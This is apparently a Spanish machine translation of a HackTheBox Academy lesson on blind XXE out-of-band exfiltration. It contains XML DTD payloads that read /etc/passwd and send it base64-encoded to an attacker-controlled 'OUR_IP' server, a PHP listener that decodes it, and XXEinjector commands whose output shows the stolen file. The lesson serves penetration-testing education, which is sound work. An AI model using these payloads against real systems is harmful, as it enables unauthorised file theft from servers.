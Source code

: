 # Blind Data Exfiltration

En la sección anterior, vimos un ejemplo de una vulnerabilidad XXE ciega, donde no recibimos ninguna salida que contenga ninguna de nuestras entidades de entrada XML. Como el servidor web mostraba errores de tiempo de ejecución de PHP, podríamos usar este defecto para leer el contenido de los archivos de los errores mostrados. En esta sección, veremos cómo podemos obtener el contenido de los archivos en una situación completamente ciega, donde no obtenemos la salida de ninguna de las entidades XML ni obtenemos ningún error de PHP.

---

# **Exfiltración de datos fuera de banda**

Si intentamos repetir alguno de los métodos con el ejercicio que encontramos en`/blind`, Notaremos rápidamente que ninguno de ellos parece funcionar, ya que no tenemos forma de imprimir nada en la respuesta de la aplicación web. Para tales casos, podemos utilizar un método conocido como`Out-of-band (OOB) Data Exfiltration`, que a menudo se usa en casos ciegos similares con muchos ataques web, como inyecciones ciegas de SQL, inyecciones de comandos ciegos, XS ciegos y, por supuesto, XXE ciego. Ambos[Scripting de sitios cruzados (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)y el[Whitebox Pentesting 101: Inyecciones de comando](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection)Los módulos discutieron ataques similares, y aquí utilizaremos un ataque similar, con ligeras modificaciones para adaptarse a nuestra vulnerabilidad XXE.

En nuestros ataques anteriores, utilizamos un`out-of-band`Ataque ya que alojamos el archivo DTD en nuestra máquina e hicimos que la aplicación web se conectara con nosotros (por lo tanto, fuera de banda). Entonces, nuestro ataque esta vez será bastante similar, con una diferencia significativa. En lugar de hacer que la aplicación web salga nuestro`file`Entidad a una entidad XML específica, haremos que la aplicación web envíe una solicitud web a nuestro servidor web con el contenido del archivo que estamos leyendo.

Para hacerlo, primero podemos usar una entidad de parámetros para el contenido del archivo que estamos leyendo mientras utilizamos el filtro PHP para codificarlo. Luego, crearemos otra entidad de parámetros externos y la referencia a nuestra IP, y colocaremos el`file`Valor de parámetros como parte de la URL que se solicita a través de HTTP, como sigue:

Código:xml

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

```

Si, por ejemplo, el archivo que queremos leer tenía el contenido de`XXE_SAMPLE_DATA`, entonces el`file`El parámetro contendría sus datos codificados Base64 (`WFhFX1NBTVBMRV9EQVRB`). Cuando el XML intenta hacer referencia al externo`oob`parámetro de nuestra máquina, solicitará`http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finalmente, podemos decodificar el`WFhFX1NBTVBMRV9EQVRB`Cadena para obtener el contenido del archivo. Incluso podemos escribir un script PHP simple que detecte automáticamente el contenido del archivo codificado, lo decodifique y lo genera al terminal:

Código:php

```php
<?phpif(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Entonces, primero escribiremos el código PHP anterior para`index.php`y luego iniciar un servidor PHP en el puerto`8000`, como sigue:

Exfiltración de datos ciegos

```
xnoxos@htb[/htb]$ vi index.php # here we write the above PHP codexnoxos@htb[/htb]$ php -S 0.0.0.0:8000PHP 7.4.3 Development Server (http://0.0.0.0:8000) started

```

Ahora, para iniciar nuestro ataque, podemos usar una carga útil similar a la que usamos en el ataque basado en errores y simplemente agregar`<root>&content;</root>`, que se necesita para hacer referencia a nuestra entidad y hacer que envíe la solicitud a nuestra máquina con el contenido del archivo:

Código:xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Luego, podemos enviar nuestra solicitud a la aplicación web:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

Finalmente, podemos volver a nuestra terminal, y veremos que realmente obtuvimos la solicitud y su contenido decodificado:

Exfiltración de datos ciegos

```
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

```

**Consejo:**Además de almacenar nuestros datos codificados Base64 como un parámetro para nuestra URL, podemos utilizar`DNS OOB Exfiltration`colocando los datos codificados como un subdominio para nuestra URL (por ejemplo,`ENCODEDTEXT.our.website.com`), y luego usa una herramienta como`tcpdump`Para capturar cualquier tráfico entrante y decodificar la cadena del subdominio para obtener los datos. De acuerdo, este método es más avanzado y requiere más esfuerzo para exfiltrar los datos.

---

# **Exfiltración automatizada de OOB**

Aunque en algunos casos es posible que tengamos que usar el método manual que aprendimos anteriormente, en muchos otros casos, podemos automatizar el proceso de exfiltración de datos XXE ciegos con herramientas. Una de esas herramientas es[Xxeinector](https://github.com/enjoiz/XXEinjector). Esta herramienta admite la mayoría de los trucos que aprendimos en este módulo, incluidos XXE básicos, exfiltración de fuente CDATA, XXE basado en errores y OOB XXE ciegado.

Para usar esta herramienta para la exfiltración OOB automatizada, primero podemos clonar la herramienta a nuestra máquina, de la siguiente manera:

Exfiltración de datos ciegos

```
xnoxos@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.gitCloning into 'XXEinjector'...
...SNIP...

```

Una vez que tenemos la herramienta, podemos copiar la solicitud HTTP de BURP y escribirla en un archivo para que la herramienta lo use. No debemos incluir los datos XML completos, solo la primera línea, y escribir`XXEINJECT`Después de él como localización de posición para la herramienta:

Código:http

```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT

```

Ahora podemos ejecutar la herramienta con el`--host`/`--httpport`las banderas son nuestra IP y puerto, el`--file`Flager es el archivo que escribimos anteriormente, y el`--path`Flag es el archivo que queremos leer. También seleccionaremos el`--oob=http`y`--phpfilter`banderas para repetir el ataque OOB que hicimos arriba, de la siguiente manera:

Exfiltración de datos ciegos

```
xnoxos@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:

```

Vemos que la herramienta no imprimió directamente los datos. Esto se debe a que estamos BASE64 codificando los datos, por lo que no se imprime. En cualquier caso, todos los archivos exfiltrados se almacenan en el`Logs`carpeta debajo de la herramienta, y podemos encontrar nuestro archivo allí:

Exfiltración de datos ciegos

```
xnoxos@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..

```

Intente usar la herramienta para repetir otros métodos XXE que aprendimos.